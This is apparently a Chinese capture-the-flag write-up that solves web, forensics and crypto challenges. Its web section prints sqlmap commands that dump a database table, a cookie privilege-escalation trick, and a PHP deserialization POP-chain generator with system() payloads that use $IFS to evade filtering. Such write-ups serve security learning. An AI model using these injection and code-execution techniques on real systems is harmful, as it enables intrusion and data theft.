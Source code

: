 ## **Web**

### Signin2

输入"Signin"，查看响应头，发现 set-cookie 里有 flag。

<img src="images/image-20221126143042789.png" alt="image-20221126143042789" style="zoom: 33%;" />

### easy 简单的越权

进入网页给了 plaintext 响应：

<img src="images/image-20221126143315987.png" alt="image-20221126143315987" style="zoom:50%;" />

查看 cookie：

<img src="images/image-20221126143348444.png" alt="image-20221126143348444" style="zoom: 33%;" />

将值改为 admin 再刷新网页即可。

### WEB3

提示访问 source，那就看看 source：

<img src="images/image-20221126143642711.png" alt="image-20221126143642711" style="zoom:50%;" />

session_id 处有明显的 SQL 注入漏洞，使用 sqlmap 进行攻击：

<img src="images/image-20221126144119110.png" alt="image-20221126144119110" style="zoom: 50%;" />

看到 session_id 确实可以注入，我们继续：

<img src="images/image-20221126144209722.png" alt="image-20221126144209722" style="zoom:50%;" />

得知 session_id 可以 UNION 注入攻击。使用漏洞查看数据库：

`python sqlmap.py -u http://29c01baa33a0d47f.node.nsctf.cn --method=POST --data="session_id=xxx" --current-db` 得知数据库名 `level1`

`python sqlmap.py -u http://29c01baa33a0d47f.node.nsctf.cn --method=POST --data="session_id=xxx" -D level1 --tables` 得知表名 `secrets`

进行 dump：`python sqlmap.py -u http://29c01baa33a0d47f.node.nsctf.cn --method=POST --data="session_id=xxx" -D level1 -T secrets --dump`

<img src="images/image-20221126144904238.png" alt="image-20221126144904238" style="zoom:50%;" />

### pop

源码里出现了 include，用伪协议读一下 `index.php`：

<img src="images/image-20221126145745862.png" alt="image-20221126145745862" style="zoom: 50%;" />

base64 解码得到源码：

```php
<?php
class Tiger{
    public $string;
    protected $var;
    public function __toString(){
        return $this->string;
    }
    public function boss($value){
        @eval($value);
    }
    public function __invoke(){
        $this->boss($this->var);
    }
}

class Lion{
    public $tail;
    public function __construct(){
        $this->tail = array();
    }
    public function __get($value){
        $function = $this->tail;
        return $function();
    }
}


class Monkey{
    public $head;
    public $hand;
    public function __construct($here="Zoo"){
        $this->head = $here;
        echo "Welcome to ".$this->head."<br>";
    }
    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->head)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Elephant{
    public $nose;
    public $nice;
    public function __construct($nice="nice"){
        $this->nice = $nice;
        echo $nice;
    }
    public function __toString(){
        return $this->nice->nose;
    }
}

if(isset($_POST['zoo'])){
    @unserialize($_POST['zoo']);
}
else{
    $a = new Monkey;
    echo "hint in hint.php!";
}
?>
```

构造 pop 链生成器：

```php
<?php
class Tiger {
    public $string;
    // 注意最后是有一个分号的
    protected $var = "system('ls');";
}

class Lion {
    public $tail;
    public function __construct(){
        $this->tail = array();
    }
}

class Elephant {
    public $nose;
    public $nice;
    public function __construct($nice="nice") {
        $this->nice = $nice;
    }
}

class Monkey {
    public $head;
    public $hand;
    public function __construct($here="Zoo"){
        $this->head = $here;
    }
}

$a = new Elephant;
$a->nice = new Lion;
$a->nice->tail = new Tiger;

$b = new Monkey($a);

// 要 POST 所以要进行 URL 编码
// Content-Type: application/x-www-form-urlencoded
$c = urlencode(serialize($b));
echo $c;

?>
```

拿到 payload POST 到 `index.php`：

<img src="images/image-20221126150119262.png" alt="image-20221126150119262" style="zoom: 50%;" />

构造 payload `system('ls\$IFS/')`

<img src="images/image-20221126150546665.png" alt="image-20221126150546665" style="zoom:50%;" />

最终构造 payload `system('cat\$IFS/f14g')`即可得到 flag。

## **Misc**

### txt

解压后得到的文件以 txt 模式打开即可得到 flag。

### 流量包

导入 wireshark，目测一下然后过滤域名 `www.wooyun.org`

<img src="images/image-20221126151830638.png" alt="image-20221126151830638" style="zoom: 33%;" />

打开 login 这条 POST 请求包，查看 form data：

<img src="images/image-20221126152125974.png" alt="image-20221126152125974" style="zoom:33%;" />

password 即为 flag 里面的值。

### Search evidence

<img src="images/image-20221126154658549.png" alt="image-20221126154658549" style="zoom: 33%;" />

winrar 打开注释拉到最右边可以看到解压密码。

exe 运行不了，`file`命令看看文件格式：

<img src="images/image-20221126154907058.png" alt="image-20221126154907058" style="zoom:50%;" />

然后查维基，尝试使用 DOSBox 运行程序。

<img src="images/image-20221126154235791.png" alt="image-20221126154235791" style="zoom: 50%;" />

程序卡住，原因未知。

<img src="images/image-20221126154105216.png" alt="image-20221126154105216" style="zoom: 67%;" />

直接查看二进制，发现了类似 flag 的东西，去掉异常字符后这就是最终 flag。

<img src="images/image-20221126154218071.png" alt="image-20221126154218071" style="zoom:50%;" />

## **Crypto**

### Encode

解压文件是 0 和 1 的 txt 格式文件。长度正好为 25*8=200，每 8 个 bit 可以转化为 hex 对应一个 ASCII。

![image-20221126160159022](images/image-20221126160159022.png)

最后执行一次 join 即可得到 flag。

### 简单的密码

解压得到如下文件，猜测为莫斯密码，将 A 替换为 `.`，将 B 替换为 `-`，将空格替换为 `/`即可得到莫斯编码。

<img src="images/image-20221126160442661.png" alt="image-20221126160442661" style="zoom:50%;" />

得到莫斯编码 `-.../----./-----/-----/-----/-.-./---../-----/--.../..---/....-/---../-.../....-/..-./--..././-.../-.../..---/--.../----./-..././....-/.-/.-/-..../-../..---/..---/-.-.`

解码：

<img src="images/image-20221126160645138.png" alt="image-20221126160645138" style="zoom:50%;" />

根据题目提示 32 位小写字符串进行转换即可。

<img src="images/image-20221126160658495.png" alt="image-20221126160658495" style="zoom:50%;" />

